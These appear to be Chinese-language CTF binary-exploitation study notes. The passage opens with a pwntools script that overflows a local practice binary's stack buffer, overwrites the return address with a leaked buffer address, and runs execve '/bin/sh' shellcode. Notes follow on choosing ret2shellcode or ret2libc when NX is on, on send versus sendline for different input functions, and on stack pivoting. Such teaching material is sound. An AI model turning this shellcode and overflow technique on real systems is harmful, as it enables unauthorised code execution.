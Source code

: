 **exp**

可以知道buf相对于ebp的偏移为0x10,所以其可用的shellcode空间为16+8=24字节，我们有长度为23的shellcode，但是因为其本身是有push指令的，所以如果我们把shellcode放在返回地址的前面，在程序leave的时候会破坏shellcode，所以我们将其放在后面。

```python
from pwn import *
p = process('./shellcode')
context.log_level = 'debug' 
p.recvuntil('[')
buf_addr = p.recvuntil(']', drop=True)
print(buf_addr)
p.recvuntil('Now give me your answer')
shell=b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
p.sendline(b'a'*24 + p64(int(buf_addr,16)+32) + shell)
p.interactive()
```

### 分辨是哪种类型漏洞的方法：

如果NX enabled（栈不可执行保护开启），则不能用ret2shellcode，只能使用ret2libc

个人还是喜欢直接用ret2libc打

## send和sendline的区别

详细参考这位师傅的博客：https://www.cnblogs.com/ZIKH26/articles/15855666.html

```
read直接从缓冲区读取指定长度的字符
scanf是从第一个非空白字符（空格 换行 制表符）开始读入的，就是你输入的数据，在按下回车的之前，输入的数据都会被存储在输入缓冲区（包括回车），当按下回车键之后，scanf就会开始从输入缓冲区里面读取数据，把读取的数据都传送到你指定的地址，直到遇见了空白符
就停止。它仅仅是遇见空白符停止了，但是空白符以及空白符后面的内容依然在输入缓冲区里面。
gets函数会将最后输入的换行符（也就是回车）从缓冲区中取出来，然后给舍弃，因此缓冲区中不会遗留换行符。但是值得注意的就是，如果当gets溢出的话（我指的是数组溢出），那么它会在你发送所有数据之后会在最后填上一个00，如果不溢出的话，就不会出现这个00。使用gets输入的字节，正好和创建数组的大小一样的话，也会溢出（可能是因为回车的原因，尽管丢弃了，但还是会在输入的字符串结尾填上一个00），也就是说，如果用gets输入溢出数组的话，它会和read的第一种情况一样，把00写入栈中，也会干扰栈中数据。
fgets不会像gets那样自动地去掉结尾的换行符
```

```bash
#一共就四种情况
read 用send
scanf 用sendline
gets 用sendline
fget 用sendline
```

## 栈迁移

特征：栈上溢出空间不满足利用，但别的地方(如bss段)可写并且可调用时

```bash
#主要用到两条命令
leave   --> move esp ebp; pop ebp
ret     --> pop eip
```

